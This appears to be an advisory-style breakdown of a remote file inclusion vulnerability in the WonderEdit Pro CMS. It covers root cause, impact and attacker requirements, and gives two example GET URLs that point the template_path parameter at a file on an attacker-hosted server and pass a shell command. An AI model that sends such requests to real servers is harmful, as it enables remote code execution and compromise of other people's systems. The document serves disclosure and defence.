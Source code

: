 Based on the provided content, here's a breakdown of the vulnerability:

*   **Root Cause:** The vulnerability is due to a lack of proper input sanitization in the `template_path` parameter within the WonderEdit Pro CMS. This allows an attacker to include arbitrary remote files.
*   **Weaknesses/Vulnerabilities:**
    *   **Remote File Inclusion (RFI):** The application directly includes a file specified in the `template_path` parameter, without any sanitization or validation.
*   **Impact of Exploitation:**
    *   An attacker can execute arbitrary code on the server by including a malicious file from a remote location. This could lead to a full compromise of the web server, data theft, or other malicious actions.
*  **Attack Vectors:**
    *   The vulnerability is exploited through HTTP GET requests by manipulating the `template_path` parameter in URLs such as:
        *   `http://[target]/[path]/template/rwb/user_bottom.php?config[template_path]=http://[attacker]/cmd.txt?&cmd=ls`
        *   `http://[target]/[path]/template/gwb/user_bottom.php?config[template_path]=http://[attacker]/cmd.txt?&cmd=ls`
*   **Required Attacker Capabilities/Position:**
    *   The attacker needs to be able to send HTTP requests to the vulnerable server.
    *   The attacker needs a server to host the malicious file to be included.

This content provides more detail than the official CVE description which is a placeholder.